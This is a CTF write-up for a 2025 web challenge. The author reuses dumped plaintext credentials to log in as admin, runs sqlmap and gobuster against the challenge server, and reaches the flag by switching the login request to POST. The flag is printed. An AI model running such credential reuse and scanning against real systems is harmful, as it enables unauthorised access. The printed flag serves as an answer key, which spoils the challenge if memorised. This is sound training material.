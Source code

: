 ```yaml
---
name: Keeping Up With The Credentials (2025)
event: CTF@CIT CTF 2025
category: Web
description: Writeup for Keeping Up With The Credentials (Web) - CTF@CIT CTF (2025) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Keeping Up With The Credentials

[![](https://img.youtube.com/vi/ZBdApaw0r0M/0.jpg)](https://www.youtube.com/watch?v=ZBdApaw0r0M?t=879 "Keeping up with the Credentials (CIT CTF)")

## Description

> "I’m all about strong passwords. If you're not using one, you’re just playing yourself."

> This challenge requires something that can be acquired in any of the other web challenges.

## Solution

Another basic login page. The description mentions we need something from another web challenge and the name hints at reused credentials, remember the DB we dumped in the SQLi challenge?

{% code overflow="wrap" %}

```bash
+---------+----------+--------------+----------+
| email   | fullname | password     | username |
+---------+----------+--------------+----------+
| <blank> | <blank>  | m1n3r41s     | hank     |
| <blank> | <blank>  | 9f3IC3uj9^zZ | admin    |
| <blank> | <blank>  | M4GN375      | jesse    |
| <blank> | <blank>  | b4byb1u3     | walter   |
+---------+----------+--------------+----------+
```

{% endcode %}

Try to login with `admin:9f3IC3uj9^zZ` and we successfully login and reach `/debug.php`. It says the page is currently under construction and to try again later.

Couldn't see much to do here, no cookies etc. Tried a few things:

-   Different GET parameters to see if response changed
-   Different HTTP methods
-   Different Content-Type (XML/JSON)

The response remained the same 😕 Try SQLi again, maybe there's a different DB.

{% code overflow="wrap" %}

```bash
sqlmap -u http://23.179.17.40:58003/index.php --data "username=cat&password=meow&login=Login" --batch
```

{% endcode %}

Nope, it's the same! Tried to use `gobuster` along with the cookie to see if there are some other PHP files (this is starting to feel guessy lol).

{% code overflow="wrap" %}

```bash
gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt -u http://23.179.17.40:58003/ -x php -c "PHPSESSID=3769e9cc271318ef55b31272d2ea9424"

===============================================================
/index.php            (Status: 200) [Size: 2484]
/admin.php            (Status: 302) [Size: 0] [--> /index.php]
/debug.php            (Status: 200) [Size: 2432]
```

{% endcode %}

Interesting that there does seem to be an admin page, and we are logged in as the admin user but get redirected to the homepage.

Another challenge I didn't finish before the CTF ended 😞 I didn't see any writeups yet but heard someone mentioning changing the request method to POST. I tried that on the `debug.php` page but apparently I was meant to do it on `index.php` during login. Testing that confirms we are redirected to `admin.php` containing the flag.

Flag: `CIT{7bf610e96ade83db}`

